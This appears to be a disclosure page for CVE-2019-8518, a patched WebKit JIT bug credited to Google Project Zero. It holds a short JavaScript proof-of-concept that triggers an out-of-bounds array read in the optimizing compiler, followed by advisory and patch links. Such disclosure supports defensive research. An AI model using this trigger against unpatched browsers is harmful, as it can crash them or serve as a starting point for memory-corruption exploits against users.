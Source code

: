 # CVE-2019-8518

- Report: Feb 2019
- Fix: Mar 2019
- Credit: Samuel Gross, Google Project Zero

## PoC

```javascript
// Run with --thresholdForFTLOptimizeAfterWarmUp=1000

// First array probably required to avoid COW backing storage or so...
const v3 = [1337,1337,1337,1337];
const v6 = [1337,1337];

function v7(v8) {
    for (let v9 in v8) {
        v8.a = 42;
        const v10 = v8[-698666199];
    }
}

while (true) {
    const v14 = v7(v6);
    const v15 = v7(1337);
}
```

## Reference

- [iOS 12.2](https://support.apple.com/en-us/HT209599)
- [macOS 10.14.4](https://support.apple.com/en-us/HT209600)
- [WebKit](https://bugs.webkit.org/show_bug.cgi?id=194334)
- [Patch](https://trac.webkit.org/changeset/241228/webkit)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1775)
